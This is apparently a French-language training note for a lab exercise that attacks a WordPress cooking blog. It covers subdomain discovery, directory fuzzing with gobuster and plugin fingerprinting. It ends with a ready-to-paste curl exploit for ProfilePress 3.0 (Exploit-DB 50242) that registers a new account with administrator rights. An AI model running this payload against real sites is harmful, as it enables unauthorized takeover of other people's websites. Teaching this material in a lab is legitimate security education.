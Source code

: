 # Intro à la cybersécurité - 4

## Objectif
- hacker sur un site de blog

## Outils
- crt.sh - Identity Search
- Fuzzing 
- John the Ripper
- bopscrk


## Ressources
- https://crt.sh/?q=thehackingproject.org
- https://github.com/OJ/gobusterhttps://github.com/OJ/gobuster
- wappalyzer

## Etapes

1 - Reconnaissance

Prendre l'adresse du site: (ce site est le sous-domaine "nourriture" de thehackingproject.org)

- https://crt.sh/?q=thehackingproject.org -> va chercher les sous-domaines
- on a ce résultat: blog-cuisine.thehackingproject.org

Regarder le site (naviguer, clic sur les liens)

- utilisateurs:
	- VeXamgM2WM766z5 (au moins 3 articles à son nom)

- page de login
	- https://blog-cuisine.thehackingproject.org/log-in/
	- on ne peut pas s'inscrire en allant à https://blog-cuisine.thehackingproject.org/sign-up/

- https://blog-cuisine.thehackingproject.org/feed/
	- <generator>https://wordpress.org/?v=5.5.11</generator>


Technique de fuzzing (pages cachées?)

- Si l'on utilise gobuster, ce qu'il faut mettre dans le terminal:
	- d'abord il faut l'installer (https://github.com/OJ/gobuster#easy-installation)
	- gobuster -u blog-cuisine.thehackingproject.org  -w  /home/../../../decouverte.txt -s 200,302

Quels sont les plugins?

Wappalyser (plugin sur le naviguateur)

- Analyser "blog-cuisine.thehackingproject.org"
	- CMS
		WordPress 5.5.11
	- Blogs
	- Font scripts
		Font Awesome
		Google Font API
		Twitter Emoji (Twemoji)
	- Miscellaneous
		HTTP/2
		Babel
	- Web servers
		Apache
	- Programming languages
		PHP 7.3
	- Databases
		MySQL
	- JavaScript libraries
		jQuery 1.12.4
		OWL Carousel
		Select2
		core-js 2.6.11
	- UI frameworks
		Bootstrap
	- WordPress plugins
		ProfilePress 3.0
2 - Scanner

Le site est-il vulnérable? Peut-être "plugin ..." n'est pas à jour? 

- https://www.exploit-db.com/ -> ProfilePress (mettre dans la barre de recherche)


3 - Accès

- https://www.exploit-db.com/exploits/50242

	curl -X POST $URL"/wp-admin/admin-ajax.php" \
	 -H "Content-Type: application/x-www-form-urlencoded" \
	 -d "reg_username=numan" \
	 -d "reg_email=pwned@numan.com" \
	 -d "reg_password=numan" \
	 -d "reg_password_present=true" \
	 -d "wp_capabilities[administrator]=1" \
	 -d "reg_first_name=pwned" \
	 -d "reg_last_name=numan" \
	 -d "action=pp_ajax_signup"

- Ouvrir votre terminal, copier-coller l'exploit. Maintenant vous êtes inscrit!

